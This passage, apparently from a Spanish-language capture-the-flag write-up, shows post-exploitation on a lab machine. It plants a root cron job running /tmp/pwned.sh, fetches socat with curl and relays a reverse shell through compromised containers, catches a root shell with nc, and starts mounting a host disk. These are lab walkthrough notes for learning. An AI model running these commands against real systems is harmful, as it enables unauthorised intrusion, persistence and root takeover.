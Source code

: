 ```null
bash-4.3# echo '* * * * * root sh /tmp/pwned.sh' > pwned
```

Para poder recibir la reverse shell, necesito redirigir el flujo con ```socat```, pasando por los dos contenedores que ya están pwneados

```null
bash-4.3# __curl http://172.19.0.4:1111/socat > socat
bash-4.3# chmod +x socat 
bash-4.3# ./socat TCP-LISTEN:4444,fork TCP:172.19.0.4:1111 &>/dev/null & disown
```

Subo el script al ```/tmp``` de la máquina víctima

```null
bash-4.3# rsync pwned.sh rsync://172.20.0.2/src/tmp/pwned.sh
```

Y gano acceso al sistema

```null
nc -nlvp 446
listening on [any] 446 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.94] 50602
whoami
root
```

```null
script /dev/null -c bash
root@backup:~# ^Z
zsh: suspended  nc -nlvp 446
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 446
                              reset xterm
root@backup:~# export TERM=xterm
root@backup:~# export SHELL=bash
root@backup:~# stty rows 55 columns 209
```

Estoy dentro de un contenedor

```null
root@backup:~# hostname -I
172.20.0.2 
```

Tiene varios discos desplegados

```null
root@backup:/backup# ls -l /dev/sda*
brw-rw---- 1 root disk 8, 0 Mar  9 06:52 /dev/sda
brw-rw---- 1 root disk 8, 1 Mar  9 06:52 /dev/sda1
brw-rw---- 1 root disk 8, 2 Mar  9 06:52 /dev/sda2
brw-rw---- 1 root disk 8, 3 Mar  9 06:52 /dev/sda3
```

Creo una montura para ```/dev/sda2```
